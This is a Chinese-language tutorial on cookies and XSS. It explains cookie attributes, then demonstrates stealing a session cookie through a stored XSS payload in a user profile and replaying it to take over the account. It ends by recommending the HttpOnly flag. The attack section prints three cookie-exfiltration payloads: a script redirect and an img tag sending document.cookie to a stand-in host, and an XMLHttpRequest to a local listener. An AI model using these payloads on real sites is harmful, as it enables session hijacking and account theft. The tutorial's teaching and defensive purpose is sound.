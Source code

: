 # Stealing Cookie With XSS

利用XSS窃取客户端资料

---

## Cookie 介绍

简单来说，Cookie 是用户浏览网页时网站存储在用户机器上的小文本文件，文件里面记录了与用户相关的一些状态或者设置，比如用户名、ID、访问次数等，当用户下一次
访问这个网站的是，浏览器会把Cookie 信息发送给网站，网站从中读取信息，以便用户实现快速访问。

##Cookie 的作用
 
因为HTTP协议是无状态的，即服务器不知道用户上一次做了什么，这严重阻碍了交互式Web应用程序的实现。在典型的网上购物场景中，用户浏览了几个页面，买了一盒饼干和两瓶饮料。最后结帐时，由于HTTP的无状态性，不通过额外的手段，服务器并不知道用户到底买了什么。 所以Cookie就是用来绕开HTTP的无状态性的“额外手段”之一。服务器可以设置或读取Cookies中包含信息，借此维护用户跟服务器会话中的状态。

在刚才的购物场景中，当用户选购了第一项商品，服务器在向用户发送网页的同时，还发送了一段Cookie，记录着那项商品的信息。当用户访问另一个页面，浏览器会把Cookie发送给服务器，于是服务器知道他之前选购了什么。用户继续选购饮料，服务器就在原来那段Cookie里追加新的商品信息。结帐时，服务器读取发送来的Cookie就行了。

Cookie另一个典型的应用是当登录一个网站时，网站往往会请求用户输入用户名和密码，并且用户可以勾选“下次自动登录”。如果勾选了，那么下次访问同一网站时，用户会发现没输入用户名和密码就已经登录了。这正是因为前一次登录时，服务器发送了包含登录凭据（用户名加密码的某种加密形式）的Cookie到用户的硬盘上。第二次登录时，（如果该Cookie尚未到期）浏览器会发送该Cookie，服务器验证凭据，于是不必输入用户名和密码就让用户登录了。

##Cookie 操作

通常我们需要设置一些 Cookie 属性，常见属性如下：

		Domain——设置关联 Cookie 的域名;
		Expires——通过给定一个过期时间来创建一个持久化Cookie;
		HttpOnly——用于避免Cookie 被 JavaScript 访问;
		Name——Cookie 的名称;
		Path——关联到 Cookie 的路径，默认为/;
		Value——读写Cookie的值;
		Secure——用于指定Cookie 需要通过安全 Socket 层连接传递;

创建一个 Cookie，需要提供 Cookie的名字、对应值、过期时间和相关路径等，以PHP语言为例，使用[setcookie()](http://php.net/manual/en/function.setcookie.php) 函数能轻易创建一个 Cookie，例如：

		<?
		setcookie('user_id',123);  //创建一个Cookie变量 user_id=123
		?>

若要删除 Cookie，设定 Cookie 的Expires 的值为过去时间即可：

		setcookie('user_id',0,time()-1); //删除 Cookie 变量


##Cookie 的安全

由于 Cookie 保存在客户端，这意味着它随时可能被窃取和滥用，如果我们登录百度后没有退出帐号，当其他成员使用同一台计算机登录时，利用之前的 Cookie，就能窃取我们帐号的“权限”。

例如使用Chrome的开发者工具查看 Cookie 信息：

![Cookie](img/Cookie.png)


##XSS攻击演示

接下来我就通过实际的攻击演示来告诉大家如何窃取Cookie并获取帐号的“权限”。

攻击者可以使用下面三种方式获取客户端的Cookie信息：

		<script>
		document.location="http://www.test.com/cookie.asp?cookie="+document.cookie
		</script>

		<img src="http://www.test.com/cookie.asp?cookie=+'document.cookie'"></img>

		var http = new XMLHttpRequest();
		http.open("GET", "http://localhost:2002?cookie="+encodeURIComponent(document.cookie), true);
		http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
		http.send();

上面攻击的本质都是触发一个HTTP GET 请求把 Cookie 信息作为URL的一部分参数传给攻击者的服务器然后攻击者
通过查看日志即可获取到 Cookie 信息，对于包含特殊字符的Cookie信息可以使用[encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent)函数进行编码传输。

首先把XSS攻击代码保存到用户的Profile中：

![XSS save](img/xss-1.png)

然后通过查看Profile触发XSS代码：

![XSS trige](img/xss-2.png)

然后通过开发者工具的Network面板查看到确实构造了一个带有 Cookie 信息的GET请求：

![XSS get](img/xss-3.png)

2002端口是本地的查看GET请求的服务器用来捕捉请求：

![XSS get](img/xss-4.png)

接下来打开一个隐身窗口（隐身窗口不会使用正常浏览的Cookie，所以可以模拟新用户）。然后通过注入Cookie的方式来完成模拟被盗用户
的登录。默认会被跳转到登录页面，因为没有登录嘛。

![XSS open](img/xss-5.png)

接下来打开开发者工具的Console页面,把得到的Cookie进行如下操作之后刷新页面就会发现：

![XSS console](img/xss-6.png)

我们已经登录到这个用户的账户了：

![XSS success](img/xss-7.png)

##Cookie 攻击防范

对于 Cookie 的偷取我们可以使用最有效的方法：设置Cookie的HttpOnly为true，这样JavaScript就无法访问了。

设置了HttpOnly属性之后在开发者工具里面可以看到HTTP选项已经打勾：

![XSS HttpOnly](img/xss-8.png)

可以看到监听服务器并没有获取到Cookie：

![XSS Cookie](img/xss-9.png)

这样就有效避免了Cookie被盗用的风险～